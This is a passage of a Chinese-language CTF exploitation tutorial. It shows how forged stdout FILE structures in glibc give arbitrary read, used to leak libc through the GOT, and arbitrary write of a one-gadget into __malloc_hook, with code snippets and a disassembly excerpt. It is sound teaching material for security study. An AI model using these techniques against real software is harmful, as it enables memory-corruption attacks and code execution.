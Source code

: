 然后存在明显的溢出，可以覆盖`stdout`，但是无法覆盖`stdout`的vtable，因为它会修正。

具体该如何利用呢，首先使用`stdout`任意读来泄露libc地址。构造的FILE结构体如下（使用[pwn_debug](https://github.com/ray-cp/pwn_debug)的`IO_FILE_plus`模块）：
```c
io_stdout_struct=IO_FILE_plus()
flag=0
flag&=~8
flag|=0x800
flag|=0x8000
io_stdout_struct._flags=flag
io_stdout_struct._IO_write_base=pro_base+elf.got['read']
io_stdout_struct._IO_read_end=io_stdout_struct._IO_write_base
io_stdout_struct._IO_write_ptr=pro_base+elf.got['read']+8
io_stdout_struct._fileno=1
```
以此来泄露read的地址。

接着使用`stdout`的任意地址写来写`__malloc_hook`，构造的FILE结构体如下：
```c
io_stdout_struct=IO_FILE_plus()
flag=0
flag&=~8
flag|=0x8000
io_stdout_write=IO_FILE_plus()
io_stdout_write._flags=flag
io_stdout_write._IO_write_ptr=malloc_hook
io_stdout_write._IO_write_end=malloc_hook+8
```
最终将one gaget 写入`malloc_hook`。如何触发malloc呢，可以使用输出较大的字符打印来触发malloc函数或是`%n`来触发，其中`%n`可触发malloc的原因是在于`__readonly_area`会通过`fopen`打开`maps`文件来读取内容来判断地址段是否可写，而`fopen`会调用`malloc`函数申请空间，因此触发。

可能会有人对于觉得`flag|=0x8000`这行构造代码觉得比较奇怪，需要解释下，在`printf`函数中会调用`_IO_acquire_lock_clear_flags2 (stdout)`来获取`lock`从而继续程序，如果没有`_IO_USER_LOCK`标志的话，程序会一直在循环，而`_IO_USER_LOCK`定义为`#define _IO_USER_LOCK 0x8000`，因此需要设置`flag|=0x8000`才能够使exp顺利进行。`_IO_acquire_lock_clear_flags2 (stdout)`的汇编代码如下：
```c
0x7f0bcf15d850 <__printf_chk+96>     mov    rbp, qword ptr [rip + 0x2a16f9]
0x7f0bcf15d857 <__printf_chk+103>    mov    rbx, qword ptr [rbp]
0x7f0bcf15d85b <__printf_chk+107>    mov    eax, dword ptr [rbx]
0x7f0bcf15d85d <__printf_chk+109>    and    eax, 0x8000
0x7f0bcf15d862 <__printf_chk+114>    jne    __printf_chk+202 <0x7f0bcf15d8ba>
```

## 小结

使用IO FILE来进行任意内存读写真的是个很强大的功能，构造起来也比较容易。但是对于FILE结构体的伪造，个人感觉可能最容易出问题的地方还是`_flags`字段的构造，可能某个地方不注意就导致程序走偏了，因此感觉可能还是把默认的`stdout`和`stdin`直接拷贝出来用会比较好一些，同时`pwn_debug`的`IO_FILE_plus`模块提供了api`arbitrary_write_check`以及`arbitrary_read_check`来进行相应检测，看相应字段是否设置正确。

至此IO FILE系列描述完毕，前四篇对IO函数fopen、fread、fwrite以及fclose的源码分析；后面三篇介绍了针对IO FILE的相关利用，包括劫持vtable、vtable引入的check机制以及相应的后续利用方式。在整个过程中为方便构造IO 结构体还在`pwn_debug`中加入了`IO_FILE_plus`模块。

最后一句，阅读源码对于学习是一件很有帮助的事情。

相关文件及脚本[链接](https://github.com/ray-cp/pwn_category/tree/master/IO_FILE/arbitrary_read_write)
